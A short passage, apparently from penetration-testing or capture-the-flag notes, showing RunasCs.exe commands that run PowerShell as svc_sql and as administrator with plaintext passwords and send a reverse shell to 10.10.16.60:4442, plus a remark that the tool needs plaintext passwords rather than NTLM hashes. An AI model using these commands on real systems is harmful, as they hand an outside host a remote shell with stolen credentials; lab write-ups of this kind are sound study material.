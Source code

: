 ```powershell
.\RunasCs.exe svc_sql 'P@ssw0rd1!' powershell -l 5 -b -r 10.10.16.60:4442 # reverse_shell
```

>[!NOTE] RunasCs.exe
> RunasCs.exe needs the plain text of the password, it doesn't accept NTLM hash.
```
.\RunasCs.exe administrator 'StrongPassword1234!' powershell -l 5 -b -r 10.10.16.60:4442
```